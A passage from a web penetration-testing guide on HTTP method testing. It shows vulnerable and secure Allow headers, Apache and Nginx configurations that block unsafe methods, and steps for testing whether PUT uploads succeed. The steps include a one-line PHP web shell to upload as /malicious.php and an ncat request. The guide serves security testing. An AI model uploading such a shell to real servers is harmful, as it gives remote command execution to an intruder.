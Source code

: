 
**Example Vulnerable Response**:
```text
Allow: GET, POST, PUT, DELETE, OPTIONS, HEAD, TRACE
```
Result: Unsafe methods enabled.

**Example Secure Response**:
```text
Allow: GET, POST, HEAD
```
Result: Only necessary methods enabled.

**Remediation**:
- Disable unsafe methods (Apache):
  ```apache
  <LimitExcept GET POST HEAD>
      Require all denied
  </LimitExcept>
  ```
- Disable in Nginx:
  ```nginx
  if ($request_method !~ ^(GET|POST|HEAD)$) {
      return 405;
  }
  ```

**Tip**: Save supported methods in a report.

### 2. Testing the PUT Method

**Objective**: Test if the server allows unauthorized file uploads via PUT.

**Detection/Exploitation**: Exploitable, Proof of Concept provided

**Steps**:
1. Send PUT request with Burp Suite:
   - Request:
     ```http
     PUT /test.html HTTP/1.1
     Host: example.com
     Content-Length: 28

     <html>HTTP PUT Enabled</html>
     ```
   - Check for: `HTTP/1.1 200 OK` or `201 Created`.
2. Verify file access:
   - Use:
     ```bash
     curl http://example.com/test.html
     ```
   - Look for: `<html>HTTP PUT Enabled</html>`.
3. Test malicious file:
   - Try: `PUT /malicious.php` with `<?php system($_GET['cmd']); ?>`.
4. Use Ncat:
   - Run:
     ```bash
     echo -e "PUT /test.html HTTP/1.1\nHost: example.com\nContent-Length: 28\n\n<html>Test</html>" | ncat example.com 80
     ```
